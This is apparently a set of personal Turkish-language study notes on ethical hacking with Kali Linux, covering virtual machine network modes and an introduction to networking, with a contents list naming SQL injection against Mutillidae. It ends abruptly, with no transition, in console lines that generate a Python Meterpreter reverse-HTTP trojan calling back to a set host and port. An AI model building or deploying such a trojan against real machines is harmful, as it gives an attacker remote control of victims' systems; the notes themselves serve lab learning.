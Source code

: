     - [Mutillidae Veritabanı](#mutillidae-veritabanı)
    - [Açık Aramak](#açık-aramak)
    - [SQL Injection Post Metodu](#sql-injection-post-metodu)

# Giriş
Bu döküman **Linux** işletim sisteminin **Kali Linux** dağıtımı üzerinde hazırlanmıştır. İlgili sistem bilgileri aşağıda bulunmaktadır.<br>
```
# lsb_release -a
>>> No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.2
Codename:       kali-rolling

# cal
>>>   May 2020        
Su Mo Tu We Th Fr Sa  
                1  2  
 3  4  5  6  7  8  9  
10 11 12 13 14 15 16  
17 18 19 20 21 [22] 23  
24 25 26 27 28 29 30  
31   
```

[Sanal Makina](#sanal-makina-virtualbox-vb-a%c4%9f-yap%c4%b1land%c4%b1rmas%c4%b1) ve [Ağlara Giriş](#a%c4%9flara-giri%c5%9f) bölümündeki tanımlara ait notları **Gökay Bekşen**'in [Youtube hesabından](https://www.youtube.com/user/gokaybeksen), **Cemal Taner**'in **Kali ile Ofansif Güvenlik** kitabından ve **Oğuz Erden - İrfan Cemal Nursaçan**'ın **Bilgisayar Ağlarına Giriş Rehberi** kitabından öğrenmeye çalıştıklarım doğrultusunda not almaya çalıştım. <br>
Yine **Kali Linux** ve ilgili **tool**'lara ait notları ise **Atıl Samancıoğlu**'nun [Udemy üzerindeki kursundan](https://www.udemy.com/course/etik-hacker-olma-kursu/) ve **Mustafa Altınkaynak**'ın **Siber Güvenlik ve Hacking** kitabından öğrenmeye çalıştıklarım doğrultusunda not almaya çalıştım. <br>
Aynı zamanda buradaki notları kendimi geliştirebilmek ve ihtiyacım olan komutları/tool'ları daha rahat kullanabilmek için aldım. Bu dökümanın kötüye kullanımından doğabilecek sonuçlardan okuyucu sorumludur :innocent:
# Sanal Makina (VirtualBox vb.) Ağ Yapılandırması
Kurduğumuz sanal makinanın Network adaptör modlarının ne anlama geldiğine bakalım
## NAT Mod
Kullandığımız sanal işletim sistemine IP adresinin sanal ağ kartı tarafından atanmasıdır. Bu modda sanal işletim sistemimiz, üzerinde çalıştığı fiziksel işletim sistemi ile aynı networkde çalışan cihazlar ile iletişim kuramazken; NAT moda alınmış diğer sanal sistemler ile iletişim kurabilir.
## Bridge Mod
Sanal makinemiz IP isteğinde bulunduğunda, IP isteği sanal ağ kartından değil, üzerinde çalıştığı fiziksel makinanın ağ kartı ile karşılanır ve bir IP adresi atanır. Mesela makinamızın adresi 192.168.1.12 ise Kali'mizin adresi 192.168.1.9 olabilir ve fiziksel ağa dahil edebiliriz. 
## Host Only Mod
Bu mod sanal makineler için özel bir ağ oluşturmamızı sağlar. Sanal makineler İnternet'e çıkamaz fakat kendi aralarında haberleşebilir
# Ağlara Giriş
## İletişim Nedir?
**İsim olarak**; duygu, düşünce veya bilgilerin akla gelebilecek her türlü yolla başkalarına aktarılması, bildirişim, haberleşme, komünikasyon. (TDK, 2020) <br>

[python/meterpreter/rev_http>>]: set LHOST 192.168.1.87 # LHOST değişkenini set ediyoruz, kendi IP adresimiz
[python/meterpreter/rev_http>>]: set LPORT 8080
[python/meterpreter/rev_http>>]: generate # Trojan'ı oluşturuyoruz, bize çıktı olarak nereye oluşturduğunu verecektir